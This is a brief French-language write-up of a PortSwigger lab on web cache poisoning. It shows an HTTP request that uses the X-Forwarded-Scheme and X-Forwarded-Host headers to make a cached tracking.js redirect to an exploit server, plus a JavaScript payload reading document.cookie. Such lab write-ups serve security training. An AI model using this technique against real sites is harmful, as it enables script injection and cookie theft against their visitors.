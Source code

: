# Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers

`Hint: Le lab accepte les deux headers X-Forwarded-Host et X-Forwarded-Scheme`

## Payload

Sur la home page il y a un script qui est chargé : `/resources/js/tracking.js`

Cette page est cachée donc j'essaye avec les deux headers fournis dans le hint.

```
GET /resources/js/tracking.js?m HTTP/2
Host: 0a1000b204a12d8e871b6cc200fb009a.web-security-academy.net
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a1000b204a12d8e871b6cc200fb009a.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a8400b404ca2dd1877b6bd601f200ed.exploit-server.net

HTTP/2 302 Found
Location: https://exploit-0a8400b404ca2dd1877b6bd601f200ed.exploit-server.net/resources/js/tracking.js?m
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```

Et sur l'exploit serveur, créer la ressource `/resources/js/tracking.js` avec le contenu :

```js
alert(document.cookie);
```